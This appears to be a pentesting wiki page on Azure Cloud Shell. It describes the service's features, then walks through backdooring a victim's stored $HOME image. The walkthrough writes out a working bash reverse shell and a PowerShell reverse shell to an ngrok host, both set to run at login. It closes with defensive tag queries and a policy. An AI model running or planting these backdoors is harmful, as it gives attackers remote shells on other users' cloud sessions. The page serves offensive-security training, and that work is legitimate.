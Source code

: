 # Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** is an interactive, authenticated, browser-accessible terminal designed for managing Azure resources, offering the flexibility to work with either Bash or PowerShell. It runs on a temporary, per-session host that times out after 20 minutes of inactivity, while persisting files in the $HOME location using a 5-GB file share. Cloud Shell can be accessed through multiple points, including the Azure portal, shell.azure.com, Azure CLI and PowerShell documentation, the Azure mobile app, and the Visual Studio Code Azure Account extension.

There aren't permissions assigned to this service, therefore the aren't privilege escalation techniques. Also there isn't any kind of enumeration.

### Key Features

- **Preinstalled Tools**: Cloud Shell includes a comprehensive set of preinstalled tools such as Azure CLI, Azure PowerShell, Terraform, Docker CLI, Ansible, Git, and text editors like vim, nano, and emacs. These tools are ready to use. To list the installed packeges and modules you can use "Get-Module -ListAvailable", "tdnf list" and "pip3 list".
- **Azure drive (Azure:)**: PowerShell in Azure Cloud Shell includes the Azure drive (Azure:), which allows easy navigation of Azure resources like Compute, Network, and Storage using filesystem-like commands. Switch to the Azure drive with cd Azure: and return to your home directory with cd ~. You can still use Azure PowerShell cmdlets to manage resources from any drive.
- **Custom Tool Installation**: Users who configure Cloud Shell with a storage account can install additional tools that do not require root permissions. This feature allows for further customization of the Cloud Shell environment, enabling users to tailor their setup to their specific needs.
- **$HOME persistence**: When starting Azure Cloud Shell for the first time, you can use it with or without an attached storage account.
    - Choosing not to attach storage creates an ephemeral session where files are deleted when the session ends.
    - To persist files across sessions, you are given the option to **mount a storage account**, which attaches automatically as `$HOME\clouddrive`, with your `$HOME` directory **saved as an .img file in a File Share.**

### Cloud Shell Phishing

If an attacker finds other users images in a Storage Accout he has write and read access to, he will be able to download the image, **add a bash and PS backdoor into it**, and upload it back to the Storage Account so next time the user access the shell, the **commands will be automatically executed**.

- **Download, backdoor and uplaod the image:**

```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name> -s <file-share>

# Mount the image
mkdir /tmp/backdoor_img
sudo mount ./.cloudconsole/acc_carlos.img /tmp/backdoor_img
cd /tmp/backdoor_img

# Create backdoor
mkdir .config
mkdir .config/PowerShell
touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo '$client = New-Object System.Net.Sockets.TCPClient("7.tcp.eu.ngrok.io",19838);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' >> .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Unmount
cd /tmp
sudo umount /tmp/backdoor_img

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img" -s <file-share>
```

- **Then, phish the user to access https://shell.azure.com/**


### Find & Forbid Cloud Shell Automatic Storage Accounts

Storage accounts created by Cloud Shell are tagged with **`ms-resource-usage:azure-cloud-shell`**. It’s possible to create an Azure resource policy that disable creating resources with this tag.

Find all the storage accounts created by Cloud Shell by tags:

```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```

Policy to forbid the creation of automatic storage accounts for cloud shell storage based on tags:

```json
{
    displayName: "Restrict cloud shell storage account creation",
    description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
    metadata: {
        category: "Storage",
        version: "1.0.0"
    },
    mode: "All",
    parameters: {
        effect: {
            type: "String",
            metadata: {
                displayName: "Effect",
                description: "Deny, Audit or Disabled the execution of the Policy"
            },
            allowedValues: [
                "Deny",
                "Audit",
                "Disabled"
            ],
            defaultValue: "Audit"
        }
    },
    policyRule: {
        if: {
            allOf: [
                {
                field: "type",
                equals: "Microsoft.Storage/storageAccounts"
                },
                {
                field: "tags['ms-resource-usage']",
                equals: "azure-cloud-shell"
                }
            ]
        },
        then: {
            effect: "[parameters('effect')]"
        }
    }
}
```

## Persistence

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}


## References

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)
- [https://www.azadvertizer.net/azpolicyadvertizer/dab3c67a-5f00-47ec-bba6-cc6984c33ae0.html](https://www.azadvertizer.net/azpolicyadvertizer/dab3c67a-5f00-47ec-bba6-cc6984c33ae0.html)


{{#include ../../../banners/hacktricks-training.md}}

